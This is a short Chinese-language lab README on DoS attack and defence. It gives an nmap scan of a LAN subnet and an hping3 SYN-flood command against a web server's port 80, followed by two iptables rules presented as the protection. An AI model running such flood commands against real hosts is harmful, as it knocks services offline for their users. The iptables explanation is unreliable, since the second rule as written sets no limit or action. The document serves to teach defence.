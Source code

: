 # DoS攻擊與防護
## 攻擊端
攻擊端先利用nmap掃描啟動中的ip和正在啟用的端口 
```
nmap -O -p 80 192.168.0.* 
```
* 掃描192.168.0.0到192.168.0.255之間port為80的主機

例如找到192.168.0.121有開放80端口後開始使用hping3攻擊開始攻擊 
```
hping3 --flood -S -p 80 -d 120 -v 192.168.0.121 
```
* 利用泛洪方式攻擊192.168.0.121的80端口發送120BYTES大小的syn封包
  
## 防護端
### Linux的iptables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 10 -j REJECT  
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --second 6
```
上述兩個指令表達是在6秒內相同IP請求連線次數超過10個即拒絕回應

## 影片說明
本次有實際防範影片，駭客用上述hping3的攻擊指令導致Http Server無法服務，但伺服器有在防火牆上做上述過濾規則，導致只有駭客IP被回絕的成效。   
成果影片：[DoS防護](https://www.youtube.com/watch?v=Nv8pB9XkcDQ)